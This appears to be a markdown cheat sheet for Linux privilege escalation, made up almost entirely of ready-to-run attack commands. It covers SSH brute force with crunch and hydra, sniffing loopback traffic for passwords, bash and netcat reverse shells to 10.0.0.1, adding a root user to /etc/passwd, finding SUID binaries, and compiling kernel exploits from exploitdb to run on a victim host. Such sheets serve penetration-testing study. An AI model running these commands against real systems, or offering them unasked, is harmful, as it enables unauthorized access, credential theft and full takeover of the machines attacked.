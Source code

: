 # Linux Privilege Escalation

## Automated enumeration

```
/usr/bin/unix-privesc-check
```

## Brute force ssh

```
crunch 11 11 -t Password%%% > wordlist
hydra -l user -P wordlist $VictimIP -t 4 ssh -V
```

## Services

```
sudo tcpdump -i lo -A | grep "pass"
watch -n1 "ps auxww | grep pass | grep -v grep | fold -s
```

## Cron jobs

Source: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Passwd file

```
openssl passwd passwordtohash
echo "newadmin:somehaststring:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## SUID

Source: https://gtfobins.github.io/
```
find / -perm /6000 -exec ls -ld {} \; # setuid + setgid
grep Uid /proc/procnum/status
ls -asl /usr/bin/somebin
```

## Sudo

```
searchsploit -u
searchsploit "Linux kernel 4.4.0 privilege escalation"
cp /usr/share/exploitdb/exploits/linux/local/num.c .
gcc num.c
scp num.c victim@IP:
./a.out
```




